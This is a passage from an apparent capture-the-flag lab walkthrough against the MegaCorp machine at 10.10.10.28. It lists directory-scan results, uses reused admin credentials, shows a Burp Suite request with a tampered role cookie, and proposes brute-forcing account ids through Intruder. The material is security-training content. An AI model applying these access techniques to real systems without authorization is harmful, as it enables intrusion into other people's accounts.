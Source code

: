 	http://10.10.10.28:80
	--------------------------------
	Directories found during testing:
	
	Dirs found with a 200 response:
	
	/
	/cdn-cgi/login/
	
	Dirs found with a 403 response:
	
	/images/
	/icons/
	/themes/
	/uploads/
	/cdn-cgi/
	/js/
	/css/
	/icons/small/
	/fonts/
	
	
	--------------------------------
	Files found during testing:
	
	Files found with a 200 responce:
	
	/index.php
	/js/min.js
	/cdn-cgi/login/script.js
	/js/index.js
	/cdn-cgi/login/index.php
	/js/prefixfree.min.js
	/cdn-cgi/login/db.php
	
	Files found with a 302 responce:
	
	/cdn-cgi/login/admin.php
	
	
	--------------------------------
	```
5. Credentials of `admin:MEGACORP_4dm1n!!` successfully signin.
6. Analysis with Burp Suite:
	* When going to accounts page:
		```
		GET /cdn-cgi/login/admin.php?content=accounts&id=1 HTTP/1.1
		Host: 10.10.10.28
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=branding&brandId=10
		Connection: close
		Cookie: user=34322; role=admin
		Upgrade-Insecure-Requests: 1
		```
		Result: It might be possible to brute force the id values, and display the user value for another user, such as the super admin account. We can do this using Burp's Intruder module. Click CTRL + i to sent the request to Intruder.
		